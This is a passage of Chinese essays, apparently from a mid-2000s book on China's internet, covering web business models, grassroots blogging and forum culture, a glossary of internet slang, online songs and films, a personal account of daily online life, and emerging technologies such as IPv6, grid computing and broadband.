第一，以传统行业产品为主，网络为工具的公司。实物类，比如卓越、当当、亚商，这些公司都是通过互联网来卖产品，说白了他们就是一个代理经销商，网络在他们的眼中就如同电视购物的电视，DM购物的DM等，只是一种卖东西的工具；信息类，比如阿里巴巴、中华化工网、中华商务网，它们通过互联网为企业提供行业分析报告和供求信息，说白了它们就是一个行业咨询公司；服务类，如ELONG，通过互联网来订机票和宾馆，说白它们就是一个服务中介，抽取佣金。

第二，以互联网为主的，以互联网产品为主要收入的公司。比如盛大，纯粹是靠网络来赚钱，因为它们产品的网络游戏；还有新浪，多半是靠网络广告。

其实做企业要扎扎实实，就如同“做人，要厚道”一样，只要方向对了，做好基础工作，暂时赚不赚钱不重要，千万别好高骛远或走捷径。其实这些道理谁都懂，当一轮自己就迷茫了，所谓的：当局者迷，旁观者清。这也就是佛家所倡导的，欲成正果，先要克服“心魔”，战胜了你自己，也就成功了。

## 后话语时代的快感

当你自然而然地打开QQ、MSN开始聊天，当你在申请的博客上记录生活中的点点滴滴，或者当你泡在论坛上灌水和拍砖之时，你是否已经意识到，一个精英分子独霸话语权的时代已经悄然退却，一场后话语时代草根民众自由表达个人主张及自娱自乐的文字盛宴随之而来了呢？

## 草根的力量

传说黄帝的史官仓颉创造出文字后，因为泄露了天机，鬼神夜夜啼哭，可见大自然是多么不愿意人类掌握文字这种神秘的沟通力量。文字，从它诞生的那一刻起，就具有了与生俱来的神圣和力量。

在古代中国，文字向来是由士大夫阶层所掌握。即使诚实如董狐和太史伯，文字也仅仅代表着史官们对史实的过滤性记录和对观点的选择性描述。几百年甚至几千年后的今天，我们在史书上看到的记载，只不过是司马迁们眼中的历史，由于各种因素的制约，这个历史离事实的真相一定有着或多或少的距离。语言文字的力量就这样渗透到一切历史、宗教和艺术的传承之中。谁掌控了文字，谁就掌控了子孙后代的思考，文字无与伦比的神圣力量由此可见一斑。

即使到了现代中国，语言文字仍然是精英分子独享的特权。我们还依稀记得，在离今天并不遥远的1980年代—那是一个对文学激情洋溢的年代，大学校园里到处是充满着浪漫情怀的文学青年。他们三五成群地在校园的草地上围成一圈，在月光中怀着仰慕的心情朗诵着北岛或者舒婷的诗篇。如果有天，他们当中某个人的诗作印成了铅字，占据了报纸或杂志上一个豆腐块大的地盘时，你会看到他脸上焕发出无比自豪的熠熠光辉。

只有到了今天，文字才真正脱离了英雄主义的色彩，变成了个人主义的东西。在这个互联网的时代里，语言文字失去了它高高在上的地位。从以前的“博客”到现在的“播客”，甚至以后的“维客”，每个人都可以拥有一份自己的“网络报纸”、“网络广播”或“网络电视”。正如超级女声在电视上“想唱就唱”，人们在网上也可以“想写就写”、“想说就写”，甚至“想秀就秀”，网络成为了草根民众张扬个性、表现自我的最佳场所。即使“妩媚”。如芙蓉姐姐这样的普通女孩，只要敢于张扬、勇于表达，也可以一夜成名。互联网时代的草根民众显示出了前所未有的力量。

## 永远的Happy

在互联网这个虚拟世界里，人们绝不绷着脸说话，快乐是永远遵循的终极原则。优雅的文字越来越高高和寡，星爷似的无厘头语言成为一种时尚。语言从神圣的殿堂走到平常百姓中，“文以载道”的社会责任不再沉重，浅薄的乐趣也就浮现出来。

“爱一个人需要理由吗？不需要吗？需要吗？”，类似于这样的语句充斥着网络，人们在对语言肆意的解构中，或者说肆意的蹂躏中体会着出轨的快乐。专栏作家伊伟曾经写过一篇文章叫《说都不会话了》，其中就痛数了当今话语的种种恶俗病症。

不仅仅在文字的表达形式上，在文字的表现内容上同样体现了互联网一贯的快乐原则。

表现内容上同样体现了互联网一贯的快乐原则。方兴东大概也没有想到，他苦心经营的博客中国会因为木子美的禁忌话题而真正走入普通百姓的视野。从某种意义上来说，木子美超越传统道德规范的文字，在娱乐大众的同时，是不是也起到了普及新事物的作用呢？

文字批评家谢有顺认为，“世俗和粗鄙之风的盛行，使得优雅的汉语正在面临失传”，“我们必须回望汉语的源头、自觉传承汉语的神髓，才能重新收获汉语曾经有过的灿烂和辉煌”。

也有不同的声音认为，没有必要这么紧张，也许只有将表达逼入一个危险地带，语言的生命才能从绝境中发现前所未有的奥妙。文明的现代转型首先是以语言的自新来实现，我们从语言日新月异的面孔中可以看见世界鲜活的表情，反过来，由于语言的变迁，我们的身心世界也发生了深刻的变化，新的现代文明也就由此而生。

## 小知识

## 精彩的网络语言

- 稀饭:喜欢;
- 色友:摄影爱好者;
- 驴友:旅游爱好者;
- 坛子:论坛;
- 马甲:一个人的多个ID;
- 表:不要;
- 偶:网络上常见的第一人称表述，用法类似于现代汉语的“我”;
- 顶:论坛的程序一般将帖子按照回复时间的先后顺序排列，回一个帖子可以将原帖子提到上面，所以将回帖叫做顶;
- 灌水:发无关紧要的帖子;
- 酱紫:“这样子”的快速省事读法;
- 东东:东西;
- 斑竹，板猪:版主，论坛版块的管理人员;
- 粉:狠，非常;
- 米国:美国;
- 美眉:漂亮姑娘;
- 恐龙:长得难看的女生;
- 青蛙:长得难看的男生;
- 菜鸟:就是初级水平的新人;

## 精彩的网络语言

- 大虾:高手;
- 木油:没有;
- 伊妹儿:电子邮件;
- 猫:英文“MODEM(调制解调器)”的音译，拨号时连接的叫声为“猫叫”。;
- 爱老虎油:I love you, 我爱你;
- I服了YOU:我服了你;
- ……的说:一种倒装语序，比如“最近很郁闷的说”;
- 严重**:与动词连用，表示强烈的情感，比如严重打倒、严重同情之类;
- 蛋白质:笨蛋、白痴、神经质;
- GG, JJ, DD, MM, BF, GF:哥哥，姐姐，弟弟，妹妹，男朋友，女朋友;
- BB:因不同的语言环境具有不同的意思，可以是宝宝、情人，还可以是拜拜的意思;
- 886:再见;
- 7456:气死我了;
- 9494:就是就是;
- 520:我爱你。

## 不必视网络语言为洪水猛兽

关于网络语言的争论已经持续有些日子了。这里所说的网络语言，不是指“帖子、版主、红客、博客”这类表达网络新概念的新词语，而是指网民们在聊天室、BBS、QQ、E-mail和手机短信中使用的那些被视为“另类”的语言表达方式，诸如标点与字符组成的情感符号、阿拉伯数字谐音、新创英文或汉语拼音缩略语、普通话或方言谐音、同音或近音汉字替代、动物名称指代、普通词语别解、英文词语缩写或英文句子，等等。

面对这类流行的网络语言，社会上褒贬不一。赞成者有之，宽容者有之，斥之为垃圾者有之，责之不健康者有之，忧心忡忡者有之。一些教师和家长看了犯晕、叫苦不迭，一些学者更是认为它是对语言文字规范的颠覆。

网络语言，仅仅是特殊的群体在特殊的场合与特殊的对象采用的特殊的便捷的而又心领神会的表达方式。这些表达方式简单、新奇、灵活、诙谐、幽默，富有创造性，反映了网民中占多数的青少年们追求时尚、崇尚创新、张扬个性的特点，体现了青少年对新鲜事物所表现出的强烈好奇心和浓厚模仿欲。一些教师和家长看到孩子们话语、作文、日记里出现了这类网络词语，颇为担心，认为如果对网络语言不加以控制，很可能会对传统正规语言的学习产生负面影响。一些媒体甚至大段大段地摘录学生“引文”实例以显示事情的严重性。看过之后，我实在怀疑有关目前中小学存在的这种情况的报道言过其实，那些引文要么是小孩子们有意合成、再度创作的，要么是大叔叔大阿姨们代为拼接加工的。其实，孩子们使用网络另类词语，不过是觉得新奇好玩，或许带有一点儿调侃和恶作剧的色彩。须知，在孩子们的世界中蕴藏着丰富的想象力与创造力。即使是恶作剧，可能会蕴藏着创造的火花。德国的儿童心理学家托马斯·卡尔松就认为，恶作剧反映一个孩子的智商较高。他的观察资料显示，爱搞点恶作剧的孩子富有创造性和想象力，日后成才的可能性比起循规蹈矩的孩子更大。事实上，一个教师如果不希望学生在作业中使用网络语言，是很容易做到的。只要把道理说明白，我想没有一个学生会“执迷不悟”。应当相信，只要你教师有足够的威望，孩子们会按照你的教导，把握这类语言应当在什么时候、什么场合、跟什么人使用。正如他们从不会把在海水浴场穿的游泳衣穿进教室里来。所以我说，没有必要把学生中使用网络语言的现实境况说得似乎已经失控。有人担心网络语言会破坏语言文字规范化，甚至要求有关部门干预，应该对网络语言进行规范。这些人不明白，这种事情不是行政干预能够奏效的。本来带有游戏性质的东西，你去规范它干什么？即使规范了，有多少人会去遵照执行？前面说过，网络语言仅仅是特殊的群体在特殊的场合与特殊的对象采用的特殊的便捷的而又心领神会的表达方式，它基本上不属于全民语言。这种新的网络交流方式没有也不会对传统语言文字交流造成严重影响。如果有的网络词语在交际中通过竞争真的被全民语言接纳了，那是语言“适者生存”的结果，人们也不必为此扼腕叹息。网络语言冲击不了主流语言，它的使用仅限于网上，“网络颠覆语言文字规范”的担心是杞人忧天。在网络交流的过程中，网民们之间彼此心照不宣的那些符号与缩略语，与其说这是在颠覆正统语言文字，不如说是对一个特殊环境的语言系统的丰富与补充，何况语言从来就不是永恒的。有的人抱怨，孩子们这些话我实在不懂啊，那很好办，你也上网聊天“灌水”嘛。这就类似一个不炒股的人就大可不必埋怨股票方面那些稀奇古怪的词语。阿尔文·托夫勒早就在《第三次浪潮》中指出：“电脑网络的建立与普及将彻底地改变人类生存及生活的模式。”网络语言的产生和流行不过是这种改变的一个小小实证。现代化和信息化使一切都处于流变之中，新的生活方式、新的技术革命、新的人类处境和社会状况，都会催生语言新的要素的产生与变异。互联网使更多的人加入写作的行列，这本身就是一件非常了不起的事情。五年之前，当网络这个朝气蓬勃的毛头小伙一步闯入娱乐圈的时候，许多人就看出了他身藏的潜质，认为其必将成为互联网娱乐的领军人物。五年之后，当网络站在PK台上笑到最后时，他终于众望所归地成为了人们追捧的娱乐骄子，打造出网络无极限的娱乐天下。

## 网娱双娇之唱网天下

2001年，一首《东北人都是活雷锋》风靡网络，迎来了平民歌手的春天。此后，《2002年的第一场雪》、《丁香花》、《别说我的眼泪你无所谓》、《老鼠爱大米》、《两只蝴蝶》等网络歌曲风起云涌。一时间，这个似乎与文化潮流和传统音乐有悖的“下里巴人”也登上了大雅之堂，正如一位专业人士所说，网络歌曲的走红，“因为它表达直白、感情真挚、旋律简单，让口味复杂的现代人重新找到情感宣泄的出口。”也因此这一新的流传形式被年轻一代更广泛地接受了。毫不夸张地说，网络歌曲点燃了新一代音乐票友的创作激情，他们迸发出来的灵感火花，成为原创音乐生生不息的源泉。事实上，中国网民的娱乐化特性已成为不争的事实，网络音乐的火爆就是因为互联网给了每个人一个机会。也正因为此，各种网络歌曲评选活动才得以汹涌澎湃的展开，为本不景气的内地乐坛带来了些许多鲜活的动力。2005年，琳琅满目的网络歌曲赛事掀起了一场“平民的狂欢”。先是1月份，被国际唱片协会认定为中国唱片业与“世界音乐大奖”相衔接的音乐奖——金碟奖，增设了“网络音乐类”评奖单元。其后，“OPPO.新浪2005网络歌曲排行榜”自4月27日开始接受上传作品以来，短短4个月已经收到300多件原创作品，在数量上远远超过了传统媒体的音乐排行榜“打榜流量”。同时，与该排行榜相配合的全国校园巡演活动也已陆续开始。新浪CEO兼总裁汪延说，“对于音乐来说，这是一个新的发展空间，就好比是在马车上加个发动机，或者在木船上加个马达一样，网络歌曲提供了新的传播渠道、售卖空间和欣赏模式，这是一个里程碑似的质变。”然而，尽管网络歌曲被诸多业内资深人士看作是互联网的一个新的增长空间和盈利模式，网络音乐门槛较低，许多创作者和演唱者缺乏专业素质却也是网络歌曲令人尴尬的事实。网络音乐制作人Vivian628在接受采访时说：“大多数网络歌手都是蛰伏了很久，他们的作品才被网友认可的。可是当他们成名后，一旦走出网络，回归现实，他们的音乐生命也就如昙花一现般的消逝了。”据她介绍，《老鼠爱大米》是杨臣刚1998年的作品，当时，执著于音乐创作的杨臣刚也曾带着它寻访能够慧眼识珠的唱片公司，希望成为一名签约歌手，然而天不遂人愿，没有一家唱片公司愿意给这个其貌不扬的男孩一个机会。2004年，屡屡受挫后的杨臣刚郁闷地将这首歌发在了网上，也许真的印证了那句“无心插柳”的老话，《老鼠爱大米》意外地获得了惊人的下载量。此后，这首歌红遍网络，杨臣刚也成为唱片公司开天价哄抢的炙手可热的明星，并于2004年11月底签约飞乐唱片，完成从网络到商业歌手的飞跃。在旁人眼里，这是一个麻雀变凤凰的传奇，可是在鲜花和掌声背后，杨臣刚开始了他的沉寂。“网络歌手一旦走红，就会有唱片公司来找，这在圈内是非常普遍的现象。可是内地的唱片业一直是比较萧条的，唱片公司虽多却良莠不齐，很多公司的资金实力注定他们根本不能给歌手一个好的发展平台，歌手一旦签了这些公司，就等于断送了自己的音乐前程。”Vivian628无奈地说：“我并不反对将网络歌手纳入商业化运作中，但是究竟什么样的运作模式才能形成既有利于歌手个人，又有利于制作公司的良性循环，现在还没有成功的先例。”的确，时下很多网络歌手凭单曲成名后，显出了后续力量匮乏的症候。唱片公司在包装、制作、推广等方面并没有给予鼎力支持，而这些歌手却也因东家的种种运作限制而脱离了网络，失去的最广泛的群众基础。那么“网络造星工厂”的前途究竟路在何方呢？Vivian628说：“我认为最应依赖的仍然是网络，它为人们提供了尽施才华的大舞台，并且，随着网络的发展，它能够提供完善的商业化平台，成为娱乐平民化的有力支持。”

## 网娱双娇之影雄传说

对于如今的人们来说，网络视频已经不是什么新奇的事情了。从可视化即时通讯到越来越多网站上出现的“电影下载”频道和专区，花样翻新的网络的影像大礼盒被网友一一笑纳。而现在，“网络电影”的诞生也让人们过了把当导演的瘾，有人说：“网络电影的出现，是电影史上的一场革命。”事实上，从更广泛的意义上来说，它更是网络娱乐化向纵深推进的一次革命。所谓的“网络电影”，并不是以网络故事为题材拍摄的电影，也不是通过BT或其他PtoP下载的传统电影，而是特指专为在网上播放而制作的电影短片，一般长度为5分钟，最长也不过30分钟。并且，与传统电影相比，网络电影显得小巧、灵活，充满着新鲜的个人气息，更适应人们在工作之余收看短小精节目的消费需求。网络电影刚出现的时候，还只是网友把自己拍摄的生活记录，采用数字技术送到网上的短片，许多人并没有把它放在眼里，认为它只是一些超级影迷的“试验性”小品。然而，就像目前流行的文化快餐一样，网络电影的兴起，也是快节奏现代生活的必然产物。它打破了电影制作的神秘感，格外受到年轻一代的青睐。就连一向追逐最新潮流的美国电影业，也对网络电影的出现持乐观而宽容的态度，各大电影公司甚至纷纷在网上设立了自己的官方网站。那些惟恐一夜醒来即被淘汰的好莱坞明星们，也奋起直追网络电影，为了在网上抢占一块属于自己的领地，竞相建立个人网站，不惜代价在网上举办电影节。2000年9月14日，在中国娱乐网的一群科技助产士的努力下，国内第一部互动网络电影《天使的翅膀》呱呱坠地，网友可通过网站看到该片的故事介绍、拍摄计划、参与方式。每个网友都可以根据自己的想象对《天使的翅膀》的故事、人物乃至对话、细节提出自己的创作想法，充分享用网络时代提供的最独特的创新手段。俗话说：网络无贵族。网络电影同传统电影的最大区别还在于，它绝对不是少数导演和制作人手中把玩的“三寸金莲”，而是平民爱好者表达生活与意识的影像利器。在这方面，“博客中国”率众网站之先，在今年欲要成就中国网络电影人人拍的大事记。“博客中国”多媒体事业部的副总经理梁书斌对记者说：“博客新设立的‘电影频道’鼓励普通人来编写剧本，上传之后由网友评选，支持率最高的五部作品将赢得博客中国的优先拍摄权。也就是说，博客会动用自己的资金投拍这些影片，并聘请专业人士对编剧者进行指导，使他们在短期内掌握导演的基本素质，为这五部长时5分钟的短片提供尽可能的帮助。”他又说：“一直以来，网友中蕴藏的创意和智慧非常丰富，他们中有优秀的作者，编剧，导演，演员……可是，由于资金和地域等的限制，很多想独立制片的发烧友在寻找演员、专业摄像、后期制作等方面没有条件，博客中国却可以全方位的协助那些有潜力的作者，为他们提供培训、设备、剪辑等资源，甚至还帮助作者寻找同一地区的合作者。”除此之外，这五部5分钟短片也会进一步接受网友的评选，最受欢迎的将由博客出资拍摄成一部真正的电影，首映式也同样是在网络上进行。梁书斌也表示，网友在线或下载这些电影全部是免费的，这将使得网络电影的娱乐优势更加深入人心。“免费”是互联网的一条不成文规则，咀嚼过博客的网络电影推广政策之后，不难发现，这一次的免费电影与过去的免费邮件、免费新闻、免费搜索引擎相比，其背后的实质性内容却近乎相同，它们最大的特点就是：网络公司既要提供免费服务的渠道，又要提供免费服务的内容，或者要为免费服务的内容或技术支持手段支付大笔的费用。这一次网络电影的问世，又不知要从网络公司的腰包里掏出多少钱来了。

## 一个北漂一族的热闹生活

在这个偌大的都市，我是北漂一族，每天两点一线，过着朝九晚五的上班生活。每当夜深人静，城市也沉入梦乡，我时时感到异地他乡的孤单。在更为浩大的网上，我是一个ID，给外地过生日的好朋友发E-mail，和陌生人在QQ上侃大山，在BBS上灌水、贴照片，甚至骂人；在博客上写日记，写故事，看留言……网络再次把我和这个世界联系起来，生活因此而热闹，我不孤独。

### 离不开的伊妹儿

我记得很清楚，我的第一封E-mail是写给自己的，上面只有一句话“世界，我来了！”若干年后，那个在263上的邮箱已经没有再用过了，今天想起来竟与当年中国第一封E-MAIL("Across the Great Wall we can reach every corner in the world")的意思不谋而合，不禁佩服起自己也是个豪情女子，既好笑又感动。从一个邮箱到另一个邮箱，我一直在寻找我能用得满意的邮箱服务。最早是263，后来是雅虎、新浪、搜狐、Hotmail、Gmail……因为收费的风波，我从新浪转到了搜狐，又申请了一个Hotmail。风波的结果是门户网站们既害怕放弃原先时候由免费带来的庞大用户群，采取了一条中庸之道，即既提供免费的，也提供收费邮箱服务。接着，他们又开始比赛谁的邮箱容量大，安静的只有我，依旧在天空最湛蓝的九月给远在澳洲的好朋友海洋发一封E-mail，送去一份生日的祝福，给毕业后去了南方的信澜偶尔发一张母校的风景照。工作的单位给我和同事们配了一个邮箱，在工作中总是要问问“您的邮箱地址是？”似乎名片上最重要的也是邮箱地址，我住在哪里已经无关紧要了。因为E-mail就是我的住址。随之而来的也还有大量我很不欢迎的东西，人们称之为垃圾邮件，即使我不是一个网络名人，也会经常受到它的骚扰。各种各样的广告信息，还有不明组织的通知，许多莫名其妙的东西塞满了你狭小的空间；令人不胜其烦。不过如果你不愿意再被骚扰，那么就申请收费服务吧，因为天下没有免费的午餐。

### 聊天实录

每天打开电脑，QQ和MSN自动上线，与线上的朋友打完招呼才开始工作，已经成为我的生活习惯。一日，因为要看照片，没有ACDSee和Photoshop，在网上搜罗了半天，也找不出一个满意的版本。正感叹网上免费的资源将越来越少时，看着跳动的小企鹅，我脑子一转，想出一个妙计：找QQ上的朋友要吧。文件很大，网络很慢，但是朋友却很热情，传输不行，那贴一个网址也行，我顺着给他的地址，打开保存安装，果然能用，不到一个小时问题迎刃而解。几个月前，竟然碰上一位老年聊友，是在一所名校教哲学的老教授，退休了，暂时在家歇一阵。他说，我教你做菜吧。起先我信不过他，一位老师，教做菜？但他告诉我，他儿子是那座城市最大的饭店的主厨，曾在央视节目中得过第一名。“哇”，我说，“那你以后都不要删掉我啊！”那些日子里，我的厨艺明显提高。第一次聊天他就把手机号码告诉我，我提醒他说；家里的电话可不要随便告诉人啊，网上有坏人的。我那几句话还没发出去，他家里的电话号码就已经发过来了。但我从没打过他的电话。后来他消失了，也许删掉了我，也许他又出去做事了。MSN、QQ、搜Q、新浪UC，可以聊天的工具很多，最后却固定在前两者上，因为QQ用得最早，上面的老朋友最多，而工作离不开的是MSN，有时候老板和上司懒得打电话，直接在MSN上开会，发命令。出差的时候与领导视频聊天，汇报工作情况，也是最佳的选择。当新浪刚刚推出UC时，我兴冲冲也去注册了一个，一个唐老鸭慢悠悠地爬上来，进去了发现还是聊天室里最热闹，晚上这些语音和视频的房间里热闹非凡，原来是网友们在里面开Party呢，每个房间有主持人，唱歌，跳舞，表演各路才艺的，甚至诗歌朗诵，天南海北的风情一览无余。宽带使语音视频火了，语音视频也使某些人的眼睛和耳朵直了。我本将网上往下的世界分得很清，但我还是能回忆起当年看到《第一次亲密接触》时内心的波澜。“如果我有一千万，我就能买一栋房子。我有一千万吗？没有。所以我仍然没有房子。如果我有翅膀，我就能飞。我有翅膀吗？没有。所以我也没办法飞。如果把整个太平洋的水倒出，也浇不熄我对你爱情的火焰。整个太平洋的水全部倒得出吗？不行。所以我并不爱你。”痞子蔡和轻舞飞扬演绎的网络情缘，虚幻如雾中看花，是一场美丽的蛊惑。其实我宁愿相信只会有这样美丽的故事发生，可是一旦网恋与欺骗、抢劫、强暴等暴力联系起来时，是有些人在做一些违法的事情，他们利用了一部分人的天真和对这个世界的信任，把原本干净的网络污染殆尽。

### 灌水的团队

“在现实生活中，我太默默无闻，在论坛上，我却很活跃，很机灵，很幽默，很热情。我是斑竹，你是谁？”从水木清华BBS、到榕树下、到斗牛士、到天涯虚拟论坛，我们是灌水的团队，尽管有人离开有人加入，我们还会在一起游乐，谈谈今天的星座，新闻里的人物，昨晚的足球。线下我们没有聚会，线上我们在论坛里侃大山。哪天心情不好了，找个地方发一帖，立刻有人好心回应“bless”；也可以极力鄙视你不喜欢的东西，骂人也不管他人高兴。不管是发泄还是享受舌战群雄的快感，不用压抑你的情感，因为逛论坛如同逛街，泄水如同游戏，“play games”。2005年的论坛特别火，功劳归于两个人，一个是流氓燕，一个是芙蓉姐姐。在天涯社区，这个自称“流氓燕”的妈妈级人物，只不过在版上贴了一张半裸的照片，就引起了数十万人的注目，天涯服务器也不堪重负。而芙蓉姐姐，一个在北大和清华边缘游走的考研人，因为喜欢在论坛上贴自己的照片，被人们称之为有强烈的“自恋”倾向。有人拍砖，有人叫好，支持者和反对者在论坛上大张旗鼓，闹得不可开交。彼时红极一时，如今也只是昙花一现，再无人问津。不过最近一出超级女声的好戏又在论坛上上演，除了在现场呐喊助威外，忠实的粉丝们在网际网络也为各自喜欢的超女们拉选票，论坛里也少不了的热闹。回首2005，似乎又是一个娱乐年，而且是女人们挑起的娱乐年，不知男人们会不会惭愧。

### 我的博客写我心

在论坛里逛久了，有种眼花缭乱的感觉，这的确是一个令人快乐的场所，可以交朋友，可以聊天，可以灌水，但却茫然，逛久了就会感到累。所以在论坛里呆的时间更短了，因为我需要让心安静一会儿。我给自己建了一个博客，每天闲下来的时候留下一点文字，为未来留一点记忆。论坛是属于大众空间，大家可以七嘴八舌的说，而博客是属于个人空间，只有个人的东西，自己个人的东西自己看，或者给亲密的朋友看，或者给大家一起分享，可以说每个人都是需要自己的个人空间，在每个人的心中就是属于自己的个人空间，别人是永远不会看到的，不会进入的，博客满足了很多人这种心理特点，使自己更有精力来维护自己的空间，论坛好比一个大江湖，而博客就相当于一个武侠退出江湖的茅屋，在茅屋里自己想做什么就做什么。个人博客相当于个人的日记一样，只不过是把日记记在网上下，在网上看，在网上保存了，正是因为在网上，而网络是虚拟的，所以很多人是愿意公开自己的博客，和大家一起分享，因为谁也不知道是谁，同时在网络里看到好的文章，好的东西，还可以把这些好的文章放到自己的博客里，把别人好的东西放到自己个人的空间，进行欣赏，再也不需要在论坛瞎找半天。博客是私人空间，是个人藏宝的地方，是心灵在网络里的归宿。但是如果这个私密的空间被打开了呢？比如木子美，这个大胆的女子引发了最大的争论，原因不是她公开了自己的博客，而是公开了众人认为是个人隐私的性爱日记。没有别的原因，仅仅因为她是个女人。你不能不为她敢于藐视传统的勇气而震惊。网上的新奇总是层出不穷，虽然我还不是一个播客，可是有一天如果我不愿意敲字了，我也很有兴趣去玩玩播客。我在想象深夜聆听自己声音的感觉，那时的夜晚也许才会真的不寂寞。

### 新技术与新应用

自从上个世纪60年代第一代互联网技术诞生以来，经过几十年的发展，互联网已经进入高速发展阶段，无论是基础框架还是商业化运作机制都非常成熟。然而变革总是孕育在发展之中，我们应该看到，目前的框架和技术已经不适应甚至是严重阻碍了互联网的发展脚步，因此，新一代的互联网技术和应用正呼之欲出，更新换代在所难免。那么在可以看到的未来，有哪些技术和应用值得关注并将改变我们的生活呢？

### IPv6

互联网的通信协议就像是邮局，它能为每一个上网者提供一个门牌号码，让人和人之间能够彼此沟通并传递信息，同时还要保证这些信息的安全、准确。由于第一代互联网采用的通信协议IPv4存在局限性，可以提供的地址比较有限，理论上仅有40亿个左右，并且美国利用其第一代互联网建设者和地址支配者的地位，垄断了这些地址资源中约74%的份额，同时基于战略考虑，美国宁可自己地址过剩，也不愿意多分出一些给其他国家，因此紧随其后的欧洲和刚刚崛起的亚太地区就只能争夺美国剩余26%的地址了。这就造成了全中国拥有的地址数量仅仅相当于美国一个加州大学的所得，所以中国虽然已经拥有了超过1亿的互联网用户，但地址的拥有量仅有2500万个，很多人不得不用假地址进行转换，在带来安全隐患的同时，直接降低了互联网的效率。在国际上也是如此，有消息称照目前的分配速度，地址将在几年内被瓜分殆尽，届时国际上将不得不面对互联网地址枯竭的危机。解决这个问题的办法早在1990年就出现了，那时美国开始研究新一代的互联网新通信协议——IPv6，作一个形象的比喻，采用这种新的互联网协议后，互联网地址的数量将多到可以给世界上每一个人的每一根头发都分配一个地址。那么这个IPv6究竟能给人们带来什么呢？首先是它可以给人们梦想自由控制生活中奠定基础，当你想一出家门就自动关门上锁，到电梯间时电梯已经打开恭候；进入停车场时汽车已经发动；还没到公司电脑就开始运转并准备好所需资料，来到办公室时咖啡机已经煮开了香浓的咖啡，那么将这些设备连接上网并分配好地址就可以实现，真真正正是一切尽在掌握。当然，IPv6的好处远不止这些，安全问题可以说是现有的互联网协议IPv4饱受非议的话题。由于互联网最初设计的目的是应用于美国的军事和科研领域，并没有准备开展商业运作，因此在网络安全问题方面缺乏周全的考虑。随着互联网在社会生活各个领域的广泛运用，黑客、病毒的泛滥，安全问题越来越成为人们关注的焦点。而IPv4的先天缺陷在IPv6上得到了改变，多种安全机制的设计为IPv6铸造了铜墙铁壁，届时目前风光一时的反病毒厂商也许将“英雄无用武之地”了。此外，IPv6在支持“永远在线”连接，防止服务中断以及提高网络性能方面也具有IPv4无可比拟的优势，现在动辄的登录失败，网络不通，拥挤掉线的状况将一去不复返。IPv6也是互联网重新洗牌的大好时机，无论从软件、硬件还是商业应用来看，它都## 网格计算(Grid Computing)

俗话说“众人拾柴火焰高”，一滴一滴的水也许无足轻重，但如果它们融合成江河大海，那将能释放出多么巨大的能量啊。而“网格计算”这一技术就可以实现这样的概念。顾名思义，“网格计算”的得名是因为这种计算方式像格子一样的体系结构，它把互联网上的资源连结成一张网，每一个网点都可以受到其他网点的支援。它可以将网络中分散的计算能力联合起来，以供应给那些在一定时间内需要高性能计算能力的项目。举个例子来说，如果你想自己计算出下一年某一天的天气情况，只能是花费几亿元美金购买一台超级计算机进行计算，而通过“网格技术”，你就可以把互联网上的众多计算资源整合成一台虚拟的超级计算机，将以CPU为主的各种资源“拧成一股绳”，借助众人的力量实现这一目的。2002年11月，日本国家高级工业科技研究所从日本向美国发送数据，速度高达707Mbps—在1万公里以上的距离之间以如此高的速度传送数据，这在世界上尚属首次，此次试验就是通过网格系统实现的。“网格计算”的另一特性是可以无处不在，无论是家庭内部、同事之间、企业内部还是城际、国际，都可以实现规模不同的“网格计算”。它可以整合网上的一切资源加以共享，有效地提供内容服务、计算服务、存储服务等。“网格计算”对于提高企业和个人的计算机利用率问题，削减信息技术方面投入巨大的巨大浪费问题起到无与伦比的作用。在理想的网格世界，成千上万台服务器的闲置时间和成千上万台计算机的闲置计算能力可予以利用，租给需要大量计算能力的人。“网格计算”还有一个独特之处在于，能够根据需要，同时将共享资源划分给许多个用户同时工作，而非将所有计算能力集中于单一任务上。美国、欧洲、日本等发达国家都启动了大型网格研究计划，发展速度很快，根据美国《福布斯》杂志预测，网格的重要技术标准将在这两年出现并将推动信息产业市场的持续高速发展，在2020年产生一个年产值为20万亿美元的大工业。我国的计算机产业在总体上落后于西方国家，我们已经错过了参与发明互联网的前两个浪潮，抓住这个历史性机遇也将是我国赶上国际互联网技术发展步伐的绝佳机遇。

## 在互联网上飞翔——高速宽带

互联网业内标准制定机构“CableLabs”发布了一项被称为“DOCSIS3.0”的新技术，该技术的应用可以使互联网运营商在当前的设备上将网络速度令人吃惊地提升300倍。Comcast公司首席执行官Brian Roberts表示：“当前，宽带运营商所提供的宽带速度一般为每秒300万比特(3Mbps)。而新技术却可以提供每秒10亿比特的下载速度。”如果与其相匹配的调制解调器面世，那么这种技术将在很大程度上改变网民使用互联网的体验。而如此惊人的宽带速度将会给我们带来什么呢？CableLabs首席执行官认为：“当前的宽带服务还是相当有限的，有许多服务仍无法实现。而且，有些服务我们目前还想像不到。据预计，与之相匹配的调制解调器有望于2008年上市。对此，思科公司首席执行官约翰·钱伯斯认为：“除了娱乐市场外，该技术还将改变我们的日常生活方式。例如，该速度完全可以快速传递数字图像，例如X光片。这样，用户坐在家中就可以享受到大部分体检项目。”其他方面的应用还包括，企业通过高清晰电视进行视频会议；消费者可以在5分钟内下载一部完整的高清电影，而当前，最快还需要22分钟。另外，在新游戏供应商，医院和学校等机构等都成为最大的受益者。

## 网络大统一——三网合一

所谓三网合一是指将现有的电信网络、计算机网络以及广播电视网络相互融合，逐渐形成一个统一的网络系统，由一个全数字化的网络设施来支持包括数据、话音和视频在内的所有业务的通信。统一后的网络将采用互联网的TCP/IP协议作为通讯协议。

未来三网合一的网络，将是一个覆盖全球、功能强大、业务齐全的信息服务网络，这个网络也是全球一体化的综合宽带多媒体通信网络，超大容量的光纤构成地面骨干网络，天上卫星多媒体系统将为全球用户提供普遍接入。这一体系是一个有机整体，具有高度统一性和平滑连接性，可以为全球任何地点、采用任何终端的用户提供综合语音、数据、图像等高质量的服务。

三网合一将使目前倍受关注的IPTV、VoIP、数字家庭等新应用将获得空前发展。

## 不是结束的结语

丘吉尔有一句名言：现在还远未结束，甚至还没有开始结束，只是初始阶段暂告一段落。将这句话套用在中国的互联网发展上，是比较恰当的。中国互联网，如果不想仅仅被裹挟在时代的大潮中流转前进，那么就应该继续乘风破浪，风雨兼程，再创十年辉煌。

## 小知识

### IPTV应用

